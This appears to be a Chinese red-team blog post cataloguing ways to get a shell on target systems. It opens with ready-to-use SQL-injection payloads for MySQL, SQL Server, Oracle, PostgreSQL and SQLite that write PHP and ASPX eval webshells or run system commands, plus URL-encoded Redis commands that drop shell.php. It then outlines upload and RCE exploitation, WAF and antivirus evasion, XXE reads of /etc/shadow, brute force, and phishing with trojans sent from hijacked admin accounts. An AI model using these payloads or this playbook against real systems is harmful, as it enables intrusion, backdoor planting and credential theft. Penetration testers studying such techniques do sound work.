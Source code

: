 无论是常规渗透测试还是攻防对抗，亦或黑灰产对抗、APT攻击，getshell 是一个从内到外的里程碑成果。我们接下来总结下常见拿shell的一些思路和方法。

注入getshell

一般前提条件：有权限、知道路径
Default
mysql
select 0x3c3f70687020a6576616c28245f504f53545b615d293ba3f3e into outfile '/var/www/html/1.php'
 
Sql server
存储过程xp_cmdshell
;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > D:\\WWW\\2333.aspx' ;--
 
Oracle
1、创建JAVA包
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;
2、JAVA权限
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''begin dbms_java.grant_permission( ''''SYSTEM'''', ''''SYS:java.io.FilePermission'''', ''''<<ALL FILES>>'''',''''EXECUTE'''');end;''commit;end;') from dual;
3、创建函数
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;
URL执行
id=602'||utl_inadd.get_host_name((select LinxRUNCMD('cmd /c dir d:/') from dual))--
 
postgresql
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';
 
sqlite3
;attach database 'D:\\www\\008.php' as tt;create TABLE tt.exp (dataz text) ; insert INTO tt.exp (dataz) VALUES (x'3c3f70687020406576616c28245f504f53545b27636d64275d293b3f3e');
 
redis
%0D%0Aconfig%20set%20dir%20%2Fvar%2Fwww%2Fhtml2F%0D%0Aconfig%20set%20dbfilename%20shell%2Ephp%0D%0Aset%20x%2022%3C%3Fphp%20phpinfo%28%29%3B%%203F%3E%22%0D%0Asave%0D%0A

PS：oracle成功率受限于与数据库版本以及注入点
当然注入不一定都能拿到webshell，比如站库分离。但不管是否站库分离，只要权限够能够执行系统命令，反弹cmdshell 也是不错的选择。比如sa权限结合xp_cmdshell 存储过程，直接执行powershell,反弹到cobalt strike …

上传 getwebshell

上传漏洞对于getshell 还是高频的，无论是前台上传点，还是后台（通过口令进入、或者XSS到后台、逻辑漏洞越权）上传点，当然也有可能要结合一些Web Server的解析漏洞。但像IIS和apache解析漏洞因为太老，现在成功概率都小很多。
类似直接的上传漏洞就可以getshell的漏洞，例如IIS PUT上传、Tomcat PUT 上传，因为落脚点最终都跟上传有关系，这个就不单独去枚举。
还有一批像一些编辑器（FCK、editor、CKedtor…）存在上传漏洞可以getshell。这一系列，一般是基于信息收集确定是否存在漏洞，然后进一步利用。（发现漏洞比利用漏洞更艺术）

这个期间可能涉及逻辑绕过、WAF对抗、杀软绕过、执行层，主要解决四点：
Default
代码或逻辑问题，可以上传脚本文件
躲过WAF对脚本文件及上传内容的校验
解决落地杀
执行过程，躲过流量监控或者系统层监控

同样RCE 也需要关注以上后几点，因为前面的入口场景不同。

RCE getshell

RCE是统称，包括远程代码执行、远程命令执行。当然这两个概念还是有意思的，比如struts2漏洞有的叫命令执行有的叫代码执行。这都不重要。一般根据触发点来命名。

Java系的OGNL 表达式注入、EL注入、反序列化
PHP系列的eval 类、伪协议类 代码执行、system类命令执行
当然反序列化漏洞基本上编程语言都有，除了漏洞利用getshell，用作免杀后门webshell也是一个不错的思路推荐。
正由于代码执行的部分结果是执行了系统命令，在命令执行的加持下，可以直接拿到应用或系统的shell，也是正统策略。
根据《2019年Web应用安全年度报告》，高频系列27个漏洞漏洞（这些漏洞都值得深入分析及利用），大部分为远程代码执行，同时RCE系列，Java 组件也占比最大。
列表如下：
Default
Harbor API SQL注入(CVE-2019-19026/CVE-2019-19029) 
Thinkcmf任意内容包含远程代码执行
泛微E-cology OA数据库配置信息泄漏 
Fastjson远程拒绝服务
GhostScript远程代码执行(CVE-2019-14811) 
泛微E-cology OA系统远程代码执行
Apache Solr远程代码执行(CVE-2019-0193) 
FasterXML jackson-databind远程代码执行(CVE-2019-14439)
FasterXML jackson-databind远程代码执行(CVE-2019-12384) 
FasterXML jackson-databind远程代码执行(CVE-2019-14379)
Xstream远程代码执行(CVE-2019-10173) 
致远OA A8前台getshell
Apache axis远程代码执行 
CoreMail未授权访问接口参数注入
Weblogic远程代码执行(CVE-2019-2729) 
Weblogic远程代码执行(CVE-2019-2725)
Confluence远程代码执行(CVE-2019-3398) 
Confluence远程代码执行(CVE-2019-3396)
Ruby On Rails任意文件读取(CVE-2019-5418) 
Jenkins远程代码执行(CVE-2019-1003030)
ColdFusion远程代码执行(CVE-2019-7091) 
Spring Boot Actuator远程代码执行
Drupal8 REST Module远程代码执行(CVE-2019-6340) 
Jenkins远程代码执行(CVE-2019-1003000)
Apache Solr远程代码执行(CVE-2019-17558) 
Fastjson远程代码执行
Jenkins远程代码执行(CVE-2019-1003000)

包含getwebshell

文件包含，常见JSP、ASPx、PHP 都有包含，但主要还是PHP的包含好用。因为可以包含任意路径的任意后缀，能控制include类函数的输入结合系统特性文件或者上传的文件结合，可以拿到webshell。
JSP包含，默认情况下动态包含WEB路径下的JSP文件（静态包含可以包含任意后缀的文本文件，但不支持变量动态赋值暂不说明），2月份的CVE-2020-1938 Tomcat 文件包含漏洞，这个漏洞看上去是包含了任意格式的文件，但其实是因为AJP协议。

漏洞组合拳getshell

绕过既有认证+后台漏洞
Default
口令猜测是门艺术活，进入后台多种漏洞的利用，包括前面提到的漏洞常见高危系列，还有一些备份还原、导入导出、 模板编辑等功能。
登录逻辑绕过、越权类，搞定后台。进行典型漏洞利用
通过XSS钓到cookie，或者利用CSRF类漏洞“借刀杀人”搞到后台权限。进行典型漏洞利用。
XXE
Default
XXE漏洞，最理想的状态就是直接可以代码执行（类似PHP expert）；大多数还是以文件读取信息收集为主，结合源码或者配置文件（例如/etc/shadow、tomcat-users.xml等）getshell；还可以通过XXE的SSRF进行隔山打牛式getshell。
当然对于漏洞挖掘来讲，无论是xml格式还是json格式的POST数据包都值得多关注下。说不定就有惊喜呢。
SSRF + RCE
Default
原理上SSRF可以结合所有RCE（反序列化、s2、mysql … ；github 搜索SSRFmap、ssrf_proxy）的漏洞进行组合利用，只是我们在平常实例角度用SSRF+redis未授权用的多一些。
任意文件读取Getshell
Default
正常的一般是通过读取web.xml 获取class文件，然后反编译，找到代码的一些漏洞。进而拿到系统的权限。当然还有文件读取加文件上传的曲折配合

系统层getcmdshell
Default
暴力破解的艺术，毕竟锤子开锁和要是开锁在入侵角度结果是一样的。
常规协议：SSH、RDP、SMB、VPC、Redis 等中间件类
通过数据库执行语句获得了系统shell，对于获取权限，比sql注入更直接。
设备层：VPN、防火墙，搞定这种边界设备，单车变摩托。

钓鱼 getcmdshell
Default
发送钓鱼邮件，捆绑的马，访问即加载、点击即执行类的马。
这一类攻击一般结合社工，例如借用IT管理员发送或某领导的账号去发送（所以这时候的邮箱的0day就灰常重要了，当然如果在邮箱内部找到类似VPN或者密码表类，也不需要这么麻烦，一把梭…），可信度就高很多。对于红队来讲，钓的鱼儿还是以IT部门系列为主，普通办公区的主机权限还需要做更多的工作。

红队shell竞争分析
Default
拼信息收集，漏洞点，别人找不到，我找的到（例如移动端、物联网等接口信息，当然这种shell，一般距离核心应用可能也远一些）；
拼利用速度，自动化一条龙（基本属于日常漏洞和工程化的积累）；
拼0day （VPN --- Mail --- OA --- java组件 --- CMS --- 关键设备 ）；
拼细节漏洞，组合利用。